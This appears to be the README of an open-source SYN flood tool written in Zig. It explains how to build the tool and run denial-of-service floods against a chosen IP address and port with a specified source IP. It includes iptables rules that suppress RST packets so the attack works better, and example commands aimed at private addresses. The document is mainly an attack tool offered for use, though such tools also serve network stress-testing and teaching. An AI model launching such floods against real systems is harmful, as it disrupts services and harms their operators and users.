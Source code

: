 # SynFlood

Start a SYN flood attack to an ip address.

## Requirements

- Zig
- libnet
	- `libnet1-dev` under Debian: `apt-get install libnet1-dev`
	- `libnet` under macOS: `brew install -s libnet`
- Root access for sending a packet.
- Its recommended to block all RST packets from the source host on the source host.
	
	```bash
	iptables -I OUTPUT -p tcp --dport 80 --tcp-flags RST RST -j DROP
	iptables -I OUTPUT -p tcp --dport 80 --tcp-flags RST ACK -j DROP
	```

## Download

Download the latest binaries from [version 3](https://github.com/TheFox/synflood/releases/tag/v3.0.0).

## Build

1. Clone:
	
	```bash
	git clone https://github.com/TheFox/synflood.git
	```

2. In `synflood` directory, make:
	
	```bash
	zig build
	```
	
	Binary file is available as `zig-out/bin/synflood`.

3. Done.

## Usage

```bash
synflood [-h|--help] -s <IP> -d <IP> -p <PORT> -c <NUM>
```

- `-s`: Source IP address.
- `-d`: Destination IP address.
- `-p`: Destination port.
- `-c`: Number of connections.

Examples:

```bash
./synflood -s 192.168.241.31 -d 192.168.1.3 -p 80
./synflood -s 192.168.241.31 -d 192.168.1.3 -p 80 -c 1000
```
